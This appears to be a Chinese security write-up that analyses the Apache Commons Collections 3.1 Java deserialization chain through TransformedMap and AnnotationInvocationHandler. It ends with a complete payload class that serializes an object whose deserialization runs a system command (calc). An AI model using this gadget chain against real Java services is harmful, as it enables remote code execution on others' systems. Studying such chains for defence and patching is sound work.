

Apache Commons是Apache开源的Java通用类项目在Java中项目中被广泛的使用，Apache Commons当中有一个组件叫做Apache Commons Collections，主要封装了Java的Collection(集合)相关类对象。
在该组件中有一个Transformer接口，实现了该接口的类有 ConstantTransformer、invokerTransformer、ChainedTransformer、TransformedMap等等
一、复现环境
环境：
maven依赖
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.1</version>
</dependency>
二、分析
ConstantTransformer类
该类是对Transformer类的实现。
可以看到该类重写了transform方法，并且调用了Closure.execute方法，并且返回一个对象。
简单来说，如果实例化ConstantTransformer对象的时候传入的是A类实例，那么我们调用该对象的transform对象的时候就会返回A类的实例。
也就是它的作用是对对象进行了输入输出的转化。
public class ClosureTransformer implements Transformer, Serializable {
private static final long serialVersionUID = 478466901448617286L;
private final Closure iClosure;
public static Transformer getInstance(Closure closure) {
if (closure == null) {
throw new IllegalArgumentException("Closure must not be null");
} else {
return new ClosureTransformer(closure);
}
}
public ClosureTransformer(Closure closure) {
this.iClosure = closure;
}
public Object transform(Object input) {
this.iClosure.execute(input);
return input;
}
public Closure getClosure() {
return this.iClosure;
}
}
InvokerTransformer
在Collections组件中提供了一个非常重要的类: org.apache.commons.collections.functors.InvokerTransformer，这个类实现了:java.io.Serializable接口。2015年有研究者发现利用InvokerTransformer类的transform方法可以实现Java反序列化RCE，并提供了利用方法:CommonsCollections1.java。
InvokerTransformer类实现了org.apache.commons.collections.Transformer接口,Transformer提供了一个对象转换方法：transform，主要用于将输入对象转换为输出对象。InvokerTransformer类的主要作用就是利用Java反射机制来创建类实例。
InvokerTransformer类的transform方法：
可以看到，该类主要作用是调用传入类的任意方法。并且它是通过反射去实现的。
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
super();
iMethodName = methodName;
iParamTypes = paramTypes;
iArgs = args;
}
public Object transform(Object input) {
if (input == null) {
return null;
}
try {
// 获取输入类的类对象
Class cls = input.getClass();
// 通过输入的方法名和方法参数，获取指定的反射方法对象
Method method = cls.getMethod(iMethodName, iParamTypes);
// 反射调用指定的方法并返回方法调用结果
return method.invoke(input, iArgs);
} catch (Exception ex) {
// 省去异常处理部分代码
}
}
一般来说，想要RCE，需要使用到Runtime这个类，但是Runtime的构造函数是一个私有方法，所以不能够直接对其进行实例化。
使用InvokerTransformer实现调用本地命令执行方法：
这里直接传入了一个Runtime实例，并且调用了exec方法。
public static void main(String[] args) {
// 定义需要执行的本地系统命令
String cmd = "calc.exe";
// 构建transformer对象
InvokerTransformer transformer = new InvokerTransformer(
"exec", new Class[]{String.class}, new Object[]{cmd}
);
// 传入Runtime实例，执行对象转换操作
transformer.transform(Runtime.getRuntime());
}
以上写法直接实例化了一个Runtime对象，但是Runtime类并没有实现序列化接口（可以去看源码），也就是说，Runtime实例对象不能够被序列化，因此在构建Payload的时候，尽量在程序中不要出现Runtime实例化出来的对象，因此需要两个类:
上面说的ConstantTransformer类和ChainedTransformer类
ChainedTransformer
该类的主要作用是链式调用transform。
public class ChainedTransformer implements Transformer, Serializable {
/** The transformers to call in turn */
private final Transformer[] iTransformers;
// 省去多余的方法和变量
public ChainedTransformer(Transformer[] transformers) {
super();
iTransformers = transformers;
}
public Object transform(Object object) {
for (int i = 0; i < iTransformers.length; i++) {
object = iTransformers[i].transform(object);
}
return object;
}
}
ChainedTransformer链执行命令：
public static void main(String[] args) {
// 定义需要执行的本地系统命令
String cmd = "calc.exe";
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{
String.class, Class[].class}, new Object[]{
"getRuntime", new Class[0]}
),
new InvokerTransformer("invoke", new Class[]{
Object.class, Object[].class}, new Object[]{
null, new Object[0]}
),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
};
// 创建ChainedTransformer调用链对象
Transformer transformedChain = new ChainedTransformer(transformers);
// 执行对象转换操作
transformedChain.transform(null);
}
注意：
InvokerTransformer 是调用对象的方法，并且需要传入该方法所需要的参数类型，所以Class[].class和是为了占位。

该 transformedChain 调用链每次循环后返回对象如图，简单来讲，就是ConstantTransformer得到一个Class对象，然后使用InvokerTransformer连续调用方法。

到了这里我们会发现，只要目标对传入的对象调用了transform方法就会触发RCE（这里的transformedChain就是我们试图传入的目标）。
那么什么情况下会对可控对象调用transform方法呐？最好的利用情况是当用户传入的输入流被反序列化以后，就能够直接进行攻击（也就是说当程序直接调用readObject方法时将触发漏洞），但实际上并没有，所以需要继续往下找。
TransformedMap类
在org.apache.commons.collections.map.TransformedMap 类中，我们观察一下该类的作用：
首先是该类的构造方法受到了保护，需要通过decorate 方法创建。
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
return new TransformedMap(map, keyTransformer, valueTransformer);
}
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
super(map);
this.keyTransformer = keyTransformer;
this.valueTransformer = valueTransformer;
}
然后观察它的checkSetValue方法：
protected Object checkSetValue(Object value) {
return valueTransformer.transform(value);
}
可以看到该方法会直接调用valueTransformer.transform,而valueTransformer是我们可以直接通过decorate构建的。换句话说，只要我们可以构建TransformedMap类（传入transformedChain对象）并调用其checkSetValue就可以RCE。
那么有什么类会构建TransformedMap类对象并且调用checkSetValue方法呐？
AbstractInputCheckedMapDecorator.MapEntry
org.apache.commons.collections.map.AbstractInputCheckedMapDecorator类是TransformedMap类的父类，其中定义了一个内部类：
继承自AbstractMapEntryDecorator类的MapEntry类，观察一下代码
static class MapEntry extends AbstractMapEntryDecorator {
/** The parent map */
private final AbstractInputCheckedMapDecorator parent;
protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
super(entry);
this.parent = parent;
}
public Object setValue(Object value) {
value = parent.checkSetValue(value);
return entry.setValue(value);
}
}
可以看到，它的setValue 方法会调用其parent的checkSetValue方法，只要我们在构建MapEntry对象的时候parent设置传入TransformedMap类对象，然后并且调用setValue即可RCE。所以我们现在应该想谁会创建MapEntry对象并且调用setValue方法。
AnnotationInvocationHandler类（JDK版本要小于1.8）
这个类是Java 就是内部类sun.reflect.annotation.AnnotationInvocationHandler,从注释可见该类是Annotation的动态代理实现类。
源代码：http://www.docjar.com/html/api/sun/reflect/annotation/AnnotationInvocationHandler.java.html
我们来看一下这个类重写的readObject方法：
328 private void readObject(java.io.ObjectInputStream s)
329 throws java.io.IOException, ClassNotFoundException {
330 s.defaultReadObject();
331
332
333 // Check to make sure that types have not evolved incompatibly
334
335 AnnotationType annotationType = null;
336 try {
337 annotationType = AnnotationType.getInstance(type);
338 } catch(IllegalArgumentException e) {
339 // Class is no longer an annotation type; all bets are off
340 return;
341 }
342
343 Map<String, Class<?>> memberTypes = annotationType.memberTypes();
344
345 for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
346 String name = memberValue.getKey();
347 Class<?> memberType = memberTypes.get(name);
348 if (memberType != null) { // i.e. member still exists
349 Object value = memberValue.getValue();
350 if (!(memberType.isInstance(value) ||
351 value instanceof ExceptionProxy)) {
352 memberValue.setValue(
353 new AnnotationTypeMismatchExceptionProxy(
354 value.getClass() + "[" + value + "]").setMember(
355 annotationType.members().get(name)));
356 }
357 }
358 }
359 }
从代码中可见该方法依次进行以下操作：
-
1.调用defaultReadObject()进行默认的反序列化。
-
2.实例化一个AnnotationType类，该类为一个运行时的注解类，用于类型检查注释和应用成员默认值。 注意：这里使用了getInstance(type)来创建实例，其代码为：
public static AnnotationType getInstance( Class<? extends Annotation> annotationClass) { JavaLangAccess jla = sun.misc.SharedSecrets.getJavaLangAccess(); AnnotationType result = jla.getAnnotationType(annotationClass); // volatile read if (result == null) { result = new AnnotationType(annotationClass); // try to CAS the AnnotationType: null -> result if (!jla.casAnnotationType(annotationClass, null, result)) { // somebody was quicker -> read it's result result = jla.getAnnotationType(annotationClass); assert result != null; } } return result; }主要还是：
new AnnotationType(annotationClass)注意：这里传入了一个type参数，类型为annotation的Class。该type参数在该类的代码：
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) { this.type = type; this.memberValues = memberValues; } -
3.调用AnnotationType.memberTypes()方法得到一个Map类。
public Map<String, Class<?>> memberTypes() { return memberTypes; }而memberTypes由如下定义：
-
private AnnotationType(final Class<? extends Annotation> annotationClass) { if (!annotationClass.isAnnotation()) throw new IllegalArgumentException("Not an annotation type"); Method[] methods = AccessController.doPrivileged(new PrivilegedAction<Method[]>() { public Method[] run() { // Initialize memberTypes and defaultValues return annotationClass.getDeclaredMethods(); } }); memberTypes = new HashMap<String,Class<?>>(methods.length+1, 1.0f); memberDefaults = new HashMap<String, Object>(0); members = new HashMap<String, Method>(methods.length+1, 1.0f); for (Method method : methods) { if (Modifier.isPublic(method.getModifiers()) && Modifier.isAbstract(method.getModifiers()) && !method.isSynthetic()) { if (method.getParameterTypes().length != 0) { throw new IllegalArgumentException(method + " has params"); } String name = method.getName(); Class<?> type = method.getReturnType(); memberTypes.put(name, invocationHandlerReturnType(type)); members.put(name, method); Object defaultValue = method.getDefaultValue(); if (defaultValue != null) { memberDefaults.put(name, defaultValue); } } } -
这里分析一下代码，判断是否为Annotation Class之后得到了所有方法并且取消保护（doPrivileged），然后将所有方法做了判断，符合条件的话放入memberTypes（方法名，该方法返回的类型）。
public static Class<?> invocationHandlerReturnType(Class<?> type) { // Translate primitives to wrappers if (type == byte.class) return Byte.class; if (type == char.class) return Character.class; if (type == double.class) return Double.class; if (type == float.class) return Float.class; if (type == int.class) return Integer.class; if (type == long.class) return Long.class; if (type == short.class) return Short.class; if (type == boolean.class) return Boolean.class; // Otherwise, just return declared type return type; } -
再次回到343行代码就清楚memberTypes 的内容是什么了。当然这里只是顺手做了一下分析，我们主要还是要看memberValues.entrySet()，我们在352行看到对memberValue调用了setValue()方法。那么memberValue有没有可能是MapEntry对象呐，我们向上关注一下memberValues，它是一个Map对象，所以我们需要一个实现了entrySet()方法的作用是返回一系列MapEntry类对象的类： 在TransformedMap类的父类AbstractInputCheckedMapDecorator类中实现了entrySet()方法
public Set entrySet() { if (isSetValueChecking()) { return new EntrySet(map.entrySet(), this); } else { return map.entrySet(); } }跟进一下isSetValueChecking()方法：
protected boolean isSetValueChecking() { return true; }这里直接返回了true。也就是会返回一个EntrySet(map.entrySet(), this)实例，该类为AbstractInputCheckedMapDecorator的内部类。 跟进一下EntrySet：
protected EntrySet(Set set, AbstractInputCheckedMapDecorator parent) { super(set); this.parent = parent; }将该类的parent字段设置为本实例，比如我们如果对一个TransformedMap实例调用entrySet(),那么他会返回一个EntrySet类实例，该实例的parent字段为TransformedMap实例，然后collection为空的Map.Entry对象。
-
再继续往下走就到了循环了，我们知道使用for (:) 循环实际是通过迭代器实现的，而
EntrySet 是实现了迭代器的：
public Iterator iterator() {
return new EntrySetIterator(collection.iterator(), parent);
}
跟进一下EntrySetIterator 类，它也是位于AbstractInputCheckedMapDecorator类的内部类，可以传入一个迭代器（这里传入的是Map.Entry 对象迭代器），以及parent字段值。
然后设置EntrySetIterator的parent字段值也是parent，iterator 字段为Map.Entry 对象迭代器。
static class EntrySetIterator extends AbstractIteratorDecorator {
/** The parent map */
private final AbstractInputCheckedMapDecorator parent;
protected EntrySetIterator(Iterator iterator, AbstractInputCheckedMapDecorator parent) {
super(iterator);
this.parent = parent;
}
public Object next() {
Map.Entry entry = (Map.Entry) iterator.next();
return new MapEntry(entry, parent);
}
}
最后调用next() 方法，其返回的是一个MapEntry对象。
到这里就基本完成了，如果进入了循环并且满足条件就会对MapEntry对象调用setValue。
根据之前的结论来看就可以完成RCE了。
总结一下我们传入一个构造好的AnnotationInvocationHandler对象，目标对其进行反序列，便会造成任意代码执行。
然后我们构建的AnnotationInvocationHandler类的构造方法：
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
Class<?>[] superInterfaces = type.getInterfaces();
if (!type.isAnnotation() ||
superInterfaces.length != 1 ||
superInterfaces[0] != java.lang.annotation.Annotation.class)
throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
this.type = type;
this.memberValues = memberValues;
}
Payload
思路总结：
构建一个ChainedTransformer对象->置入TransformedMap对象的valueTransformer字段
->TransformedMap对象置入AnnotationInvocationHandle对象的memberValues字段。
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.map.HashedMap;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.util.HashMap;
import java.lang.reflect.Constructor;
import java.util.Map;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
public class test implements Serializable{
public static void main(String[] args) throws Exception
{
Transformer[] transformers = {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{ String.class, Class[].class}, new Object[]{"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[]{ Object.class, Object[].class}, new Object[]{ null ,new Object[0]} ),
new InvokerTransformer("exec",
new Class[] {String.class },
new Object[] {"calc"})
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map map = new HashMap();
map.put("value", "2");
Map transformedmap = TransformedMap.decorate(map, null, transformerChain);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
cons.setAccessible(true);
Object ins = cons.newInstance(java.lang.annotation.Retention.class,transformedmap);
//将ins序列化
ByteArrayOutputStream exp = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(exp);
oos.writeObject(ins);
oos.flush();
oos.close();
//取出序列化的数据流进行反序列化，验证
ByteArrayInputStream out = new ByteArrayInputStream(exp.toByteArray());
ObjectInputStream ois = new ObjectInputStream(out);
Object obj = (Object) ois.readObject();
}
}
三、总结
从分析中可以看到，TransformedMap利用链依赖于AnnotationInvocationHandler 类的反序列漏洞是很容易触发的，因为它是Java 原生类，当然jdk要小于1.7,高版本已经修复了，比如1.8的该类代码
ObjectInputStream.GetField fields = s.readFields();
@SuppressWarnings("unchecked")
Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);
@SuppressWarnings("unchecked")
Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);
// Check to make sure that types have not evolved incompatibly
AnnotationType annotationType = null;
try {
annotationType = AnnotationType.getInstance(t);
} catch(IllegalArgumentException e) {
// Class is no longer an annotation type; time to punch out
throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
}
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
// consistent with runtime Map type
Map<String, Object> mv = new LinkedHashMap<>();
// If there are annotation members without values, that
// situation is handled by the invoke method.
for (Map.Entry<String, Object> memberValue : streamVals.entrySet()) {
String name = memberValue.getKey();
Object value = null;
Class<?> memberType = memberTypes.get(name);
if (memberType != null) { // i.e. member still exists
value = memberValue.getValue();
if (!(memberType.isInstance(value) ||
value instanceof ExceptionProxy)) {
value = new AnnotationTypeMismatchExceptionProxy(
value.getClass() + "[" + value + "]").setMember(
annotationType.members().get(name));
}
}
mv.put(name, value);
}